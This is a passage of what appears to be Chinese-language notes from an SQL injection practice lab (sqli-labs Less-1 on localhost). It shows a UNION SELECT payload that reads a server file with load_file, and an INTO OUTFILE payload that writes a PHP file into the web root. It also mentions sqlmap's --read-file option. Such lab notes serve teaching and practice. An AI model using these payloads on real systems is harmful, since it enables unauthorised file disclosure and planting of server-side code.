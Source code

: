 注入时，使用

http://localhost:8081/Less-1/?id=-1’ union select 1,load_file(“/run.sh”),3 –+

![1593160739742](assets/1593160739742.png)

sqlmap的–read-file 可以指定读取文件

###### 写入

写入文件要求mysql进程用户对目标目录有读写权限，



http://localhost:8081/Less-1/?id=-1’ union select  1,’<?php phpinfo();?>‘,3 into outfile ‘/app/phpinfo.php’ –+                                                                                                                                                                      

![1593161976662](assets/1593161976662.png)

可访问如下

![1593161992827](assets/1593161992827.png)
